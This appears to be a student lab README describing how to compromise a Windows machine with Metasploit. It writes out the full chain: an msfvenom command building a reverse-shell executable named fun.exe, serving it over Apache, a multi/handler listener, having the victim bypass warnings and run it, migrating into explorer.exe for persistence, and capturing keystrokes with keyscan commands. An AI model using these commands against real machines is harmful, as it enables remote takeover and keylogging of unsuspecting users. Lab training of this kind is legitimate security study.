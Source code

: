 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-20 222050](https://github.com/user-attachments/assets/dc5487b6-87bb-4ace-aeba-d54ab96bd144)






Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-20 222141](https://github.com/user-attachments/assets/a9615d8a-23f9-4103-8af5-6803a7f4ec51)








copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/ff975434-41a9-4fe6-ae0c-2f71156fbeb8)





Start apache server
sudo systemctl apache2 start
![Screenshot 2025-04-20 222717](https://github.com/user-attachments/assets/b99d3a92-19f4-4b40-9cd1-c0344effb158)








Check the status of apache2
![Screenshot 2025-04-20 222806](https://github.com/user-attachments/assets/87a62d57-8b80-4337-85d8-76eab8de74cc)






Invoke msfconsole:
## OUTPUT:






Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-07 114636](https://github.com/user-attachments/assets/b03d96a2-1d8d-4dec-8a0f-22c7cec2b903)




On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2025-04-11 141549](https://github.com/user-attachments/assets/1280db57-07f0-4f80-8c79-d2915f41f8f3)




Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 






Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-11 142118](https://github.com/user-attachments/assets/5e89add7-61d5-489a-9cca-d223c37acec4)





keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115015](https://github.com/user-attachments/assets/2cd42810-8016-4632-97ca-6ab56f11c012)





## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
